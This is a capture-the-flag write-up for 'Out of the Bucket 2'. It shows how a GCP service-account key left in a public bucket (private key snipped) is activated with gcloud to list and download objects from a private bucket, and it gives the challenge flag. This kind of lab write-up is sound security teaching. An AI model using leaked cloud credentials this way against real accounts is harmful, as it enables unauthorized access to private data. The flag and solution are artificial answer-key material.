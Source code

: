 # Out of the Bucket 2 [122 Solves]

## Description

> This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
>
> Author: windex

## Short Solution

- GCP credential is in a file named funny.json in the out-of-the-bucket bucket
- List the buckets using the Google Cloud CLI and find flag-images bucket
- Download the object and get the flag in xa.png

## Solution

<https://storage.googleapis.com/out-of-the-bucket/secret/funny.json>

```json
{
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\n(snip)=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
```

This is Google Cloud Platform (GCP) credential.

Install Google Cloud CLI by the following [Quickstart: Install the Google Cloud CLI](https://cloud.google.com/sdk/docs/install-sdk).

```console
$ ./bin/gcloud auth activate-service-account --key-file=./funny.json
Activated service account credentials for: [image-server@out-of-the-bucket.iam.gserviceaccount.com]

$ ./bin/gcloud config list
[core]
account = image-server@out-of-the-bucket.iam.gserviceaccount.com
disable_usage_reporting = True

Your active configuration is: [default]

$ # I already found in funny.json that the project id is out-of-the-bucket

$ ./bin/gcloud config set project out-of-the-bucket
WARNING: You do not appear to have access to project [out-of-the-bucket] or it does not exist.
Are you sure you wish to set property [core/project] to out-of-the-bucket?

Do you want to continue (Y/n)?

Updated property [core/project].

$ ./bin/gcloud storage buckets list
---
creation_time: 2023-12-29T16:56:35+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: flag-images
public_access_prevention: enforced
rpo: DEFAULT
storage_url: gs://flag-images/
uniform_bucket_level_access: true
update_time: 2023-12-29T17:04:30+0000
---
creation_time: 2023-12-29T15:47:39+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: out-of-the-bucket
public_access_prevention: inherited
rpo: DEFAULT
storage_url: gs://out-of-the-bucket/
uniform_bucket_level_access: true
update_time: 2023-12-29T16:33:52+0000

$ # Found flag-images bucket so download objects.

$ ./bin/gcloud storage ls --recursive gs://flag-images/
gs://flag-images/:

gs://flag-images/256x192/:
gs://flag-images/256x192/ad.png
gs://flag-images/256x192/ae.png
gs://flag-images/256x192/af.png
gs://flag-images/256x192/ag.png
gs://flag-images/256x192/ai.png
gs://flag-images/256x192/al.png
...
```

These image are:

![flag_of_the_worlds.png](img/flag_of_the_worlds.png)

These are the flag of the worlds.
However, xa.png image is a flag for this CTF not the world flag.

![flag.png](img/flag.png)

## Flag

uoftctf{s3rv1c3_4cc0un75_c4n_83_un54f3}
